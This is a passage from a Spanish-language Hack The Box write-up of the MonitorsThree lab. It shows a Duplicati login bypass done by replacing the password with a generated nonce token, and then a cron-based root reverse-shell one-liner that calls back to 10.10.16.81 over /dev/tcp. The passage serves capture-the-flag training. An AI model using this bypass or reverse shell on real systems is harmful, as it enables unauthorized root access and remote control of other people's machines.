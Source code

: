Modifico el parámetro `password` de la solicitud  y lo reemplazo por el token generado (noncedpwd). Es necesario URL encodear el token antes de enviarlo para garantizar que sea interpretado correctamente por el servidor.

![](assets/img/htb-writeup-monitorsthree/monitorsthree6_5.png)

Después de modificar y reenviar la solicitud, observo que se ha completado el inicio de sesión en la interfaz web de Duplicati sin necesidad de la contraseña original.

![](assets/img/htb-writeup-monitorsthree/monitorsthree7_1.png)

Procedo a crear un archivo de cron que ejecutará una reverse shell con permisos de root. Este archivo se guarda en el directorio personal de Marcus y se utiliza Duplicati para crear un respaldo de este archivo y restaurarlo como una tarea de cron. Esto resulta en la ejecución del comando como root, lo que conduce a una ejecución remota de comandos.

```terminal
marcus@monitorsthree:~$ echo '* * * * * root /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.81/4321 0>&1"' > shell
```
